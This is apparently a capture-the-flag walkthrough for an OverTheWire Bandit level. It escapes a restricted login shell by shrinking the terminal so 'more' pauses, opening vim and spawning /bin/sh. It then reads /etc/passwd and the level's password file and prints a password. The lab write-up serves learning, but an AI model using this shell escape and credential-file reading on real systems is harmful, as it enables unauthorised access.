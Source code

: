Connection its established and then close.  
Lets see what type of shell is bandit26 using by default. For that we must see the passwd file line ending refering to user bandit26:

```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```
{: .nolineno }  

We know now why we get logged out after connecting (exit 0)  
Before that we can see a more command opening text.txt.  
We know the command **more** will go in interactive mode showing next lines option at the end of page when the file content is larger than the terminal windows. So if this file is very small, we need to connect with a small window to keep the **more** command in interactive mode. In interactive mode one command allowed is "v". This command open the "vim" text editor. "vim" allow to run shell commands. We must avoid using ":shell" immediately, because this runs the actual shell, and we know it exit the connection, so we must try to change the shell to "/bin/bash" using ":set shell=/bin/sh first, and then running ":shell".

Now with a small terminal window:

```bash
ssh bandit26@localhost -p 2220 -i bandit26.sshkey

--More--(33%)
```
{: .nolineno }

At this point the text.txt script is in hold, waiting for user input, and not reaching the last line (exit 0).  
We'll hit the command "v" to open vim editor, and then we can enlarge again the terminal file with "vim" opened.  
Now the commands to change and run the shell:

```bash                                                                
~                                                                      
~                                                                      
:set shell=/bin/sh  
```
{: .nolineno }

```bash
~                                                                      
~                                                                      
:shell                                     
$ ls
bandit27-do  text.txt
$ cat /etc/bandit\_pass/bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```
{: .nolineno }
